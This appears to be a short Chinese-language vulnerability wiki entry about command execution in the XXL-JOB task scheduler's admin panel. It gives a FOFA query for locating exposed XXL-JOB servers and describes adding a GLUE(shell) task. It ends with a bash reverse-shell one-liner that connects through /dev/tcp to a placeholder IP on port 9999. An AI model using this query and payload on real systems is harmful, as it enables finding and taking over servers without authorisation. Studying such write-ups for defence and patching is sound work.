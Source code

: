 # XXL-JOB 任务调度中心 后台任意命令执行漏洞

## 漏洞描述

XXL-JOB 任务调度中心攻击者可以在后台可以通过写入shell命令任务调度获取服务器权限

## 漏洞影响

> [!NOTE]
>
> XXL-JOB

## FOFA

> [!NOTE]
>
> app="XXL-JOB" || title="任务调度中心"

## 漏洞复现

登录后台增加一个任务

![](http://wikioss.peiqi.tech/vuln/xxl-4.png)

> [!NOTE]
>
> 注意运行模式需要为 GLUE(shell)

![](http://wikioss.peiqi.tech/vuln/xxl-5.png)

点击 GLUE IDE编辑脚本

![](http://wikioss.peiqi.tech/vuln/xxl-6.png)

![](http://wikioss.peiqi.tech/vuln/xxl-7.png)

执行探测出网，和任务调用是否可执行

反弹一个shell

```
#!/bin/bash
bash -c 'exec bash -i &>/dev/tcp/xxx.xxx.xxx.xxx/9999 <&1'
```

![](http://wikioss.peiqi.tech/vuln/xxl-8.png)